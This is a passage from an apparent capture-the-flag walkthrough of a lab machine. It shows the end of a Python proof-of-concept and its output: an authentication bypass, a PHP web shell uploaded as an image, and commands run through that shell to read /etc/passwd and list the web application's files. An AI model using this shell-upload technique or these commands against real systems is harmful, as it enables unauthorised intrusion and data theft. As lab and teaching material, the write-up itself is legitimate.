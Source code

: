 ```python
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)
    
    except Exception as e:
        print(e)
        sys.exit(1)

main()
```

Established a fake-shell using the PoC.

```
python3 magic.py -t 10.129.72.174

[+] Bypassed the authentication!

[+] xFayPC.php.png successfully uploaded!

[+] URL to exploit manually: http://10.129.72.174/images/uploads/xFayPC.php.png?fc8358bcf09e4b3947d1975622a9df14=<CMD>

$ > whoami
www-data

$ > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ > exit

[!] Quitting!
```

# Lateral Movement

Discovered another user.

```
$ > cat /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
```

There is a database file under /var/www/Magic.

```
$ > pwd
/var/www/Magic/images/uploads

$ > ls ../../
assets
db.php5
images
index.php
login.php
logout.php
upload.php
```
